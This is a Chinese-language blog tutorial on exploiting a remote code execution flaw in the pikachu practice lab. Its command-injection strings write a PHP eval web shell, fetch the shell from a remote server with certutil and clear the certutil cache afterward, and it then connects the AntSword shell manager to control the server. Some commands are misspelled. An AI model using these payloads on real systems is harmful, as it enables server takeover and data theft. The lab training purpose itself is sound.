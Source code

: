 ```yaml
---
title: 网络安全学习-RCE
tags:
  - 网络安全
readmore: true
date: 2023-02-09 11:18:31
updated: 2023-02-09 11:18:31
---
```


RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行，也就造成了远程代码执行漏洞。

<!-- more -->

### 环境搭建

环境使用 pikachu 的靶场，下载地址：https://github.com/zhuifengshaonianhanlu/pikachu

安装方式可自行百度，推荐使用 phpstudy 创建网站，方便快捷。

### ping 命令漏洞

打开 pikachu 靶场中的 RCE -> exec "ping"，在表单中输入 127.0.0.1 可以看到回显，说明执行了 ping 127.0.0.1 的命令。

#### 测试漏洞

紧接着使用 && 连接符在 127.0.0.1 的后面连接上 whoami 命令

```bash
127.0.0.1 && whoami
# whoami 作用是查看操作系统的用户名
# && 连接符，当前面的命令执行后，后面的命令才会执行
```

可以看到两个命令全都执行了，说明这个位置有漏洞，我们可以加以利用。

#### 创建一句话木马(直接写入文件)

输入新的命令：

```bash
127.0.0.1 && echo "<?=eval($_POST['cmd']);?>" > shell.php
# echo 输出字符串
# $_POST['cmd'] 接受来自 POST 请求且参数名为 cmd 的值
# eval() 执行接收到的字符串
# > 将内容输入到指定的文件中
```

此时就在该页面的位置创建了一个 shell.php 文件并输入对应内容。

#### 创建一句话木马(文件下载方式)

除了使用 echo 这种直接写入的办法，还可以使用 certutil 命令从远处下载木马文件。

##### 启动本地服务器

这种方法需要拥有一个服务器，从服务器上下载文件；练习时我们使用 Python 来创建一个本地服务器作为演示。

在安装好 Python 后，创建一个文件夹并创建 shell.php 文件，写入上文的一句话木马。

**目录不要包含中文**

打开命令行输入命令：

```bash
python -m http.server 8080
# -m 将 python 中的模块当作脚本运行
# 8080 服务启动的端口
```

服务器启动成功~

##### 访问本地服务器

输入命令查看自己电脑的 ip：

```bash
# windows
ipconfig
# linux
iconfig
```

**注意 Windows 和 Linux 查看 ip 的命令不同**

在浏览器输入：

```bash
http://192.168.31.195:8080/
```

成功访问后可以看到一个 shell.php 文件。

##### 下载文件

在靶场的表单中输入：

```bash
127.0.0.1 && certutil -urlcache -f -split http://192.168.31.195:8080/shell.php
# -urlcache 显示或删除URL缓存条目
# -f 覆盖的现有文件，后面要跟着下载文件的 url
# -split 保存到文件
# 杀毒软件可能会报毒，因为是自己的命令，我们就允许它执行
```

看到页面有其他的显示，说明文件已经下载成功~

##### 删除下载缓存

certuril 命令有一个弊端就是下载文件后会保留缓存。

输入命令查看缓存：

```bash
certutil -urlcache *
# 查看所有缓存
cerutil -urlcache 192
# 查看包含 192 字符串的缓存
```

输入命令删除缓存：

```bash
certutil -urlcache * delete
# 删除所有缓存
certuil -urlcache 192 delete
# 删除包含 192 字符串的缓存
```

#### 蚁剑连接后台

成功上传一句话木马后，使用蚁剑进行连接。

蚁剑源码下载地址：https://github.com/AntSwordProject/antSword

蚁剑启动器下载地址：https://github.com/AntSwordProject/AntSword-Loader

将蚁剑源码解压后，打开启动器目录选择刚刚的源码文件，稍等片刻会成功启动。

也可以直接使用启动器下载；若遇到解压失败的情况，给予源码的文件夹所有权限即可。 

启动后，在蚁剑空白处右键，选择添加数据；

![](http://pic.mewhz.com/blog/rce-1.png)

在基础配置中的 url 地址，输入靶场中木马所在的 url；

连接密码输入 cmd，即刚刚木马中 $_POST 的参数；

![](http://pic.mewhz.com/blog/rce-2.png)

单击测试连接，显示连接成功后，单击添加；

右键刚刚添加的记录，选择文件管理就可以对木马所在的服务器进行文件操作；

![](http://pic.mewhz.com/blog/rce-3.png)

![](http://pic.mewhz.com/blog/rce-4.png)



仅供学习交流使用~
